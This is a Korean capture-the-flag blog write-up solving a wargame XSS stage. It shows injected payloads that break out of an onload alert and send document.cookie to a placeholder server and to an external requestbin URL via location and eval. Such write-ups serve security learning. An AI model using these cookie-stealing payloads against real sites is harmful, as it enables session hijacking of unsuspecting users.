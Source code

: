 ```
<body onload="alert('Hello, XSS')">
```



이렇게 되어있는데, alert창을 닫고, 다시 `alert(1)`를 넣으면 되지 않을까…?

해보자! 꾜!



```
?q=에레레%27);alert(%27메롱%27)//
```


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss4_2.png)


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss4_3.png)



쨔란 된다? 자 이제 시작이야 내꿈을~

그래서 `alert('메롱')`에 `document.cookie`를 보내는 스크립트를 넣으면 되겠지?!



```
q=XSS');location='서버주소?a='%2Bdocument.cookie//
```



이렇게 하면 Hello, XSS가 뜨고 그걸 클릭하면, `ok`가 뜹니다. 근데 막상 FLAG가 오지 않아요..

그래서 혼자 열심히 고민을 해봤는데, 이건 제 뇌피셜입니다.


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss4_4.png)



여기서 url form을 보내서 flag를 받는 형식의 wargame사이트인데요.

실제 문제 사이트에서는 제가 Hello, XSS 알림창이 뜨면 `확인`을 눌러주면 서버에 정상적으로 쿠키가 보내졌는데…
그런 과정없이 한번에 가야 되는듯..음

그래서 `window.open`을 사용을 해볼까했지만, 실패!



제가 너무 돌아가보려고 했나 싶어서,
eval함수로 `location='http://requestbin.fullcontact.com/1def3da1?a='%2Bdocument.cookie`
실행하도록 하니…성공이었습니다!



------



### Stage 20 - scrscriptipt

딱 문제 페이지부터 들어가면 소스보기를 하고 이 문제에 대해서 생각을…?
